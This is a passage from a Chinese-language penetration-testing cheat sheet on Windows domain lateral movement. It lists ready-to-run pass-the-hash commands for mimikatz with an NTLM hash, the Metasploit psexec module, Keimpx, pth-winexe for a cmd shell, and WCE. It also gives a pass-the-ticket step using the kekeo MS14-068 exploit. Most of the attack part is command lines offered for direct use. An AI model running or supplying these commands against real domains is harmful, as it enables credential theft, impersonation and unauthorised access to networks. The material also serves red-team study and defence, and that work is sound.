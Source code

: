 > 7.powershell【比如上文提到的Invoke-mimikatz脚本】


##### hash传递

受限管理员模式顾名思义,只对管理员组有效.所以如果你获取到的用户属于远程桌面用户组,那么是无法通过hash登录的.会提示错误。

mimikatz:
```
sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a
```

MSF:
```
use exploit/windows/smb/psexec

```

Keimpx：
```
Keimpx -t ip -c ~/hash.txt -v 2
```

PTH套件：

```
Pth-winexe可以借助哈希执行程序得到一个cmdshell
Pth-winexe - U ... //ip cmd

参考：
http://blog.csdn.net/the__apollo/article/details/70474935

```

WCE：

```
wce -s ...
```

psexec/wmiexec：

```
前面有提到用法，这里就不单独讲了。
```


附上横向域渗透【案例比较经典】


```
http://www.mottoin.com/89413.html
```


### 提取票据

##### 传递票据

因为域用户对应sid本就可以通过程序自动获取，清除导入票据也能自动实现，当然，如果想用其他域用户信息攻击，也可以加上sid手动导入票据，kekeo的快捷用法仅需要以下参数：

```
https://github.com/gentilkiwi/kekeo/releases

ms14068.exe /domain:test.local /user:test /password:test /ptt
```

